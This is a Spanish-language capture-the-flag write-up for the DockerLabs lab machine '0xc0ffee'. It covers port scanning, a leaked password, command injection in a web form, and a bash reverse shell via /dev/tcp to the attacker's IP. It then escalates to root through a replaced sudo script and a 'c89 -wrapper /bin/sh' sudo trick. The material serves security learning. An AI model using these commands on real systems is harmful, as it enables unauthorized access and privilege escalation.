 #MAQUINA #DOCKERLABS #MEDIO 
#RCE
<hr>

# RECONOCIMIENTO

Vamos a resolver **0xc0ffee** de la plataforma **DockerLabs**.

   ```bash

Máquina desplegada, su dirección IP es --> 172.17.0.2

```

Primero vamos a hacer un escaneo de puertos rápido:

```bash

nmap -sS -vvv -p- --min-rate 5000 -n -Pn 172.17.0.2
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-24 11:01 CET
Initiating ARP Ping Scan at 11:01
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 11:01, 0.04s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 11:01
Scanning 172.17.0.2 [65535 ports]
Discovered open port 80/tcp on 172.17.0.2
Discovered open port 7777/tcp on 172.17.0.2
Completed SYN Stealth Scan at 11:01, 0.50s elapsed (65535 total ports)
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.0000030s latency).
Scanned at 2025-02-24 11:01:54 CET for 0s
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE REASON
80/tcp   open  http    syn-ack ttl 64
7777/tcp open  cbt     syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.66 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)


```

- **`--open`**: Muestra solo los puertos abiertos en la salida.
- **`-sS`**: Especifica un escaneo TCP SYN, que es más sigiloso que un escaneo de conexión completa.
- **`--min-rate 5000`**: Establece la tasa mínima de paquetes enviados a 5000 por segundo, haciendo que el escaneo sea más rápido.
- **`-vvv`**: Aumenta el nivel de verbosidad, proporcionando una salida más detallada durante el escaneo.
- **`-n`**: No resuelve DNS; esto evita retrasos por búsquedas de nombres.
- **`-Pn`**: Trata el objetivo como si estuviera en línea; omite el descubrimiento de hosts.
- **`-p-`**: Escanea todos los 65535 puertos en lugar de solo los más comunes.

**Conclusiones:** El ttl al ser 64 nos dice que es una máquina **Linux**. Además, vemos que tiene los puertos **80(HTTP)** y el **7777** abiertos.

Ahora vamos a hacer un escaneo con mayor detalle:

   ```bash

nmap -sCV -p22,7777 172.17.0.2                   
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-24 11:02 CET
Nmap scan report for 404-not-found.hl (172.17.0.2)
Host is up (0.000018s latency).

PORT     STATE  SERVICE VERSION
22/tcp   closed ssh
7777/tcp open   http    SimpleHTTPServer 0.6 (Python 3.12.3)
|_http-title: Directory listing for /
|_http-server-header: SimpleHTTP/0.6 Python/3.12.3
MAC Address: 02:42:AC:11:00:02 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.36 seconds



```

```bash

nmap --script="http-enum" 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-24 11:04 CET
Nmap scan report for 404-not-found.hl (172.17.0.2)
Host is up (0.0000040s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE
80/tcp   open  http
7777/tcp open  cbt
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.45 seconds

whatweb "http://172.17.0.2/"                                                                                                          
http://172.17.0.2/ [200 OK] Apache[2.4.58], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.58 (Ubuntu)], IP[172.17.0.2], Title[Security Verification Tool]

whatweb "http://172.17.0.2:7777/"                                                                                                          
http://172.17.0.2:7777/ [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[SimpleHTTP/0.6 Python/3.12.3], IP[172.17.0.2], Python[3.12.3], Title[Directory listing for /]


```

- **`-sC`**: Realiza un escaneo de scripts (Nmap Scripting Engine, NSE). Esto permite ejecutar scripts de `nmap` para obtener información adicional sobre los servicios detectados, como vulnerabilidades, configuraciones o detalles específicos de los mismos.
- **`-sV`**: Realiza la detección de versiones de servicios. Esto intenta identificar la versión exacta del software que está escuchando en un puerto abierto, lo que puede ayudar a determinar si hay vulnerabilidades conocidas.
- **`--script`**:  Ejecutar un script específico.

## 7777

Vemos un directorio secret con un txt que tiene la contra del login del puerto 80 -> super_secure_password.


# EXPLOTACION

Al poner la contra, vemos un formulario.

Si ponemos un identificador, metemos un `echo "crack";` y luego buscamos la configuración, vemos que se ejecuta e interpreta.

Por lo que nos ponemos en escucha y nos damos una shell :

```bash

/bin/bash -c 'bash -i > /dev/tcp/172.17.0.1/443 0>&1'

```

YA ESTAMOS COMO WWW-DATA.
# ESCALADA PRIVILEGIOS

Vemos un secreto en el home de codebad, una adivinanza.

**Contra -> malware**

YA ESTAMOS COMO CODEBAD.

Vemos si el usuario tiene permisos SUDO:
   ```bash
codebad@9c22d670afa8:~/secret$ sudo -l
Matching Defaults entries for codebad on 9c22d670afa8:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User codebad may run the following commands on 9c22d670afa8:
    (metadata : metadata) NOPASSWD: /home/codebad/code

```


Vemos **/home/codebad/code**  con permisos SUDO, como el directorio es nuestro lo borramos y creamos uno a nuestro gusto:

   ```bash
codebad@9c22d670afa8:~$ cat code
#!/bin/bash

bash -p
codebad@9c22d670afa8:~$ sudo -u metadata ./code ../metadata/pass.txt
metadata@9c22d670afa8:/home/codebad$ whoami
metadata
metadata@9c22d670afa8:/home/codebad$ 


```

YA ESTAMOS COMO METADATA.

Si buscamos un poco, vemos que en /usr/local/bin hay un archivo **metadatosmalos**. No podemos hacer nada, pero si probamos como contra de metadata, podemos hacer el sudo -l .

Vemos **c89**  con permisos SUDO:

```bash
metadata@9c22d670afa8:/usr/local/bin$ 

    sudo c89 -wrapper /bin/sh,-s .

# whoami
root
# 


```

**YA ESTAMOS COMO ROOT.**